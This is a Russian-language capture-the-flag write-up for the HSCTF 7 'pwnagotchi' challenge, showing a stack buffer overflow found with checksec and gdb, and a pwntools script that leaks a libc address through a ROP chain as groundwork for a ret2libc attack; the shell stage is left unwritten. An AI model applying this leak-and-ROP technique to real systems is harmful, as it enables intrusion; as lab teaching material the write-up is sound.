

# HSCTF 7

##  pwnagotchi


> Have fun with your new pwnagotchi!
>
> Connect to view your `\ (•-•) /` at `nc pwn.hsctf.com 5005`
>
> Author: meow
>
> [`pwnagotchi `](pwnagotchi)

## Анализ бинарного файла
### file pwnagotchi
```
    pwnagotchi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, 
                interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, 
                BuildID[sha1]=f8c34ef43ba5a8fbce8b89987797d88f7adbb31f, not stripped
```
### checksec pwnagotchi
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Итак, что мы имеем: 64-битный исполняемый ELF файл, отсутствует стековая канарейка и сегмент текста программы в памяти расположен по статическому адресу. 

##  Как работает программа
### ./pwnagotchi
```
    Enter your pwnagotchi's name: 
    admin

    \ (•-•) /
    
    admin is not happy!
```
Админ несчастлив. Программа принимаем наш ввод и печатает его. Посмотрим глубже.
### Декомпилирование с Ghidra


Можно заметить, что программа уязвима к переполнению буфера, строки 6 и 18 это подтверждают. Попробуем перезаписать адрес возврата для функции main, открываем gdb.
```
    gdb-peda$ r
    Starting program: /home/white/Desktop/pwnagotchi 
    Enter your pwnagotchi's name: 
    AAAAAAAAAAAAAAAAAAAAAAAAAA

    \ (•-•) /

    AAAAAAAAAAAAAAAAAAAAAAAAAA is not happy!

    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    RAX: 0x0 
    RBX: 0x0 
    RCX: 0x0 
    RDX: 0x0 
    RSI: 0x7fffffffb9a0 ('A' <repeats 26 times>, " is not happy!\n")
    RDI: 0x7ffff7fa44c0 --> 0x0 
    RBP: 0x4141414141414141 ('AAAAAAAA')            // Если мы можем перезаписать RBP и мы не ограничены в длине
    RSP: 0x7fffffffe050 --> 0x0                     // вводимой строки, мы точно можем перезаписать RIP
    RIP: 0x414141414141 ('AAAAAA')                  // Действительно, мы это сделали.    
    R8 : 0xffffffff                                 // RIP перезаписан нашим вводом: 'A' = 0x41
    R9 : 0x29 (')')
    R10: 0x7fffffffe034 ('A' <repeats 26 times>)
    R11: 0x246 
    R12: 0x400700 (<_start>:	xor    ebp,ebp)
    R13: 0x7fffffffe120 --> 0x1 
    R14: 0x0 
    R15: 0x0
    EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x414141414141
    [------------------------------------stack-------------------------------------]
    0000| 0x7fffffffe050 --> 0x0 
    0008| 0x7fffffffe058 --> 0x7fffffffe128 --> 0x7fffffffe426 ("/home/white/Desktop/pwnagotchi")
    0016| 0x7fffffffe060 --> 0x100040000 
    0024| 0x7fffffffe068 --> 0x400846 (<main>:	push   rbp)
    0032| 0x7fffffffe070 --> 0x0 
    0040| 0x7fffffffe078 --> 0x6dd3503f33091595 
    0048| 0x7fffffffe080 --> 0x400700 (<_start>:	xor    ebp,ebp)
    0056| 0x7fffffffe088 --> 0x7fffffffe120 --> 0x1 
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x0000414141414141 in ?? ()
```
##  Планирование Атаки
Настало время планирования. Мы можем перезаписывать RIP, но при этом у нас имеется NX бит, делающий стек неисполяемым. Предлагаю провернуть атаку re2libc, но есть проблема, которую необходимо решить перед проведением атаки: **необходимо узнать версию libc на сервере**. Для этого сделаем искусственную утечку адресов libc, а затем опеределим версию библиотеки с помощью этих адресов.

##  Первая часть:    Утечка libc
```python
    from pwn import *

    p = process("./pwnagotchi")             # To work locally
    #p = remote("pwn.hsctf.com", 5005)      # To work on the server

    pop_rdi = p64(0x00000000004009f3)       # We are looking for a gadget for payload
                                            # In radare2, this is done like this: /R pop rdi
    getegid_got = p64(0x601048)             # Getegid function address in GOT table
                                            # In gdb, this is done like this: 
                                            # x/i <getegid_call_address>
    puts = p64(0x00000000004007f2)          # Calls to the puts function in a text segment

    offset = 8 * 2 + 4                      # Offset to RIP
    payload = "A" * offset + pop_rdi + getegid_got + puts
    p.sendline(payload)                     # Payload Departure
    print p.recvuntil("s not happy!\n")     # Start reading after the given line
    leak = p.recvline().strip()             # Save read line
    leak = binascii.hexlify(leak)           # Convert string characters to hexadecimal numbers
    print ("Leak is: " + leak)              # Libc leak output
```
Не забываем, что у нас little endian, поэтому адрес утечки будет **побайтово в обратном поряде**.

##  Вторая часть:   Определение версии libc
Для этого воспользуемся сайтом [libc database](https://libc.nullbyte.cat/). Вводим имя функции, для которой искали адрес, и ее адрес. Если вариантов слишком много, находим еще функции и сопоставляем результаты, чтобы ограничить круг поиска.

##  Третья часть:   Получение шелла или re2libc во всей красе
**Загрузка...**
